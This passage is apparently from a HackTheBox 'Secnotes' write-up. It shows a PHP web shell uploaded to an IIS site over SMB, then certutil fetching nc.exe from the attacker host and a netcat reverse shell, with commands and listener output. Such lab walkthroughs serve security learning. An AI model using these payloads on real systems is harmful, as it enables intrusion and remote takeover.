 ```
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required
NSE: Script Post-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 00:25
Completed NSE at 00:25, 0.00s elapsed
```

Nice we have another web server on port 8808

And it shows just the default IIS page
![image](https://user-images.githubusercontent.com/113513376/215295702-3b1a9b32-62d1-4ade-bac3-a9a21ede2371.png)

Seems like we will need to upload a shell to to web server via the smb

The web server uses php language 
![image](https://user-images.githubusercontent.com/113513376/215295987-2f519aa7-ad95-481f-8d99-2aa1828cca03.png)

And i'll use this 

```
Payload: <?php system($_GET['cmd']); ?>

```

Now lets upload it to the smb server

```
┌──(mark__haxor)-[~/Desktop/B2B/HTB/Secnotes]
└─$ smbclient //10.10.10.97/new-site -U tyler
Password for [WORKGROUP\tyler]:
Try "help" to get a list of possible commands.
smb: \> put shell.php
putting file shell.php as \shell.php (1.7 kb/s) (average 1.7 kb/s)
smb: \>
```

Now on the web server we can execute it
![image](https://user-images.githubusercontent.com/113513376/215296343-fb050b2a-668b-43d9-9f91-56679681c5f1.png)

Now lets get a reverse shell 

```
Payload: http://10.10.10.97:8808/shell.php?cmd=certutil.exe%20-urlcache%20-f%20http://10.10.16.7:8081/nc.exe%20nc.exe
Payload: http://10.10.10.97:8808/shell.php?cmd=nc.exe%2010.10.16.7%2080%20-e%20cmd
```

Back on the netcat listener

```
┌──(mark__haxor)-[~/Desktop/B2B/HTB/Secnotes]
└─$ nc -lvnp 80
listening on [any] 80 ...
connect to [10.10.16.7] from (UNKNOWN) [10.10.10.97] 50359
Microsoft Windows [Version 10.0.17134.228]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\inetpub\new-site>
```

